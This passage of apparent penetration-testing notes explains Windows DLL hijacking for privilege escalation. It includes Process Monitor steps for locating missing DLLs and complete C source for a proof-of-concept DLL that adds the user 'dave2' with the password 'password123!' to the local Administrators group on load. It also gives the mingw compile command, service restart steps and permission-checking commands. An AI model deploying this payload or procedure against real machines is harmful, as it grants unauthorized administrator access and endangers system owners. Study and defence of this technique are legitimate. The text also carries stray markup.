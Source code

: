 - Filter Process Name is SERVICE.EXE 
# Then restart the service while Process Monitor is running in the background
Restart-Service Service 
# Check CreateFile if there is any calls to DLLs
# PoC for DLL that adds a new user to the Administrators group
#include &#x3C;stdlib.h> 
#include &#x3C;windows.h> 
BOOL APIENTRY DllMain( HANDLE hModule,// Handle to DLL module 
DWORD ul_reason_for_call,// Reason for calling function 
LPVOID lpReserved ) // Reserved 
{ 
	switch ( ul_reason_for_call ) 
	{ 
		case DLL_PROCESS_ATTACH: // A process is loading the DLL. 
		int i; 
		i = system ("net user dave2 password123! /add"); 
		i = system ("net localgroup administrators dave2 /add"); 
		break; 
		case DLL_THREAD_ATTACH: // A process is creating a new thread. 
		break; 
		case DLL_THREAD_DETACH: // A thread exits normally. 
		break; 
		case DLL_PROCESS_DETACH: // A process unloads the DLL. 
		break; 
	}
	return TRUE; 
}
# Cross-compile the C++ Code to a 64-bit DLL
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
# Once the DLL is placed on a directory where will be executed, restart the service
Restart-Service Service
<strong>
</strong><strong>
</strong><strong>
</strong><strong>https://attack.mitre.org/techniques/T1574/001/
</strong>#Check vulnerable services by following this guide:
http://www.fuzzysecurity.com/tutorials/16.html
# Check the path you are using 
echo %path%
# Check for all dirs in path what access rights you have (Python as example)
accesschk.exe -dqv "C:\Python27"
cacls "C:\Python27"
# Check if any service is calling for DLL's that do not exist on the system